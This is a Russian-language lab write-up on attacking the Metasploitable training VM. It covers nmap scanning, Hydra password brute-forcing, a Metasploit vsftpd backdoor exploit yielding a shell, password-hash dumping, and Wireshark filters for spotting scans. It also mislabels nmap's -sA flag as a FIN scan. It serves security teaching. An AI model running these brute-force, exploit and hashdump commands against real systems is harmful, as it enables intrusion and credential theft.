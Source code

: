 # Уязвимости и атаки на информационные системы
- Качаем дистриб Kali linux 
- Качаем  виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/

Просканируйте эту виртуальную машину, используя nmap.
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.


## NMAP: основные режимы сканирования
-sS: TCP SYN-сканирование

-sT: TCP connect-сканирование

-sА: TCP FIN-сканирование

-sU: UDP-сканирование

-sX: Xmas-сканирование

-PR: ARP-пинг

--traceroute: трассировка пути

-R: разрешение имен DNS

-n: запрещение разрешения имен DNS

-sL: создать список хостов


 Попробуем разные режимы 
![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)

Агрессивный режим сканирования (-A) – наиболее часто используемый
![alt text](image-3.png)

-sV: версия софта
![alt text](image-4.png)


Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.

![alt text](image-5.png)

## эксперемент с HYDRA 
создадим два файлика 
![alt text](image-6.png)
а в идеале качаем готовый seclist
```
 hydra -L user.txt -P pwd.txt ftp://192.168.31.121
```   
![alt text](image-7.png)
```
hydra -L user.txt -P pwd.txt 192.168.31.121 http-get
```
![alt text](image-8.png)


# METASPLOIT
```
kali@kali:~$ sudo service postgresql start
kali@kali:~$ sudo msfdb init
```
```
kali@kali:~$ sudo msfconsole
msf5 > db_status
```
![alt text](image-9.png)

![alt text](image-10.png)
подключим модуль сканнера 
```
use auxiliary/scanner/ftp/ftp_version
```
![alt text](image-11.png)
Добавим переменнную ``RHOSTS``
```
setg RHOSTS 192.168.31.121
run
```
![alt text](image-12.png)
Получили баннер
![alt text](image-14.png)

Подключаем модуль
```
use exploit/unix/ftp/vsftpd_234_backdoor
run
```
![alt text](image-15.png)

попали в shell
![alt text](image-16.png)
![alt text](image-17.png)

Для сбора хешей паролей
Переведем нашу сессию в фоновый режим: ``Ctrl-Z``
```
sessions -l проверим сессии
```
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > use post/linux/gather/hashdump
```
```
msf5 post(linux/gather/hashdump) > show options
```
![alt text](image-18.png)
```
msf5 post(linux/gather/hashdump) > set session 1
msf5 post(linux/gather/hashdump) > run
```

![alt text](image-19.png)


Мы получили хэши паролей пользователей сервера.

![alt text](image-20.png)

Если вы хотите перейти к сессии №1 (например, к shell после эксплуатации vsftpd):

```
sessions -i 1
```
Если сессия "висит" в фоне
``jobs -l ``   # проверка фоновых задач
``fg %1  ``    # вернуться к задаче №1

# Анализ трафика с помощью Wireshark

![alt text](image-21.png)

![alt text](image-22.png)

Специфические фильтры для каждого типа

SYN-сканирование:

```tcp.flags.syn == 1 && tcp.flags.ack == 0```

FIN-сканирование:


```tcp.flags.fin == 1 && tcp.flags.ack == 0```

Xmas-сканирование:


```tcp.flags.fin == 1 && tcp.flags.psh == 1 && tcp.flags.urg == 1```
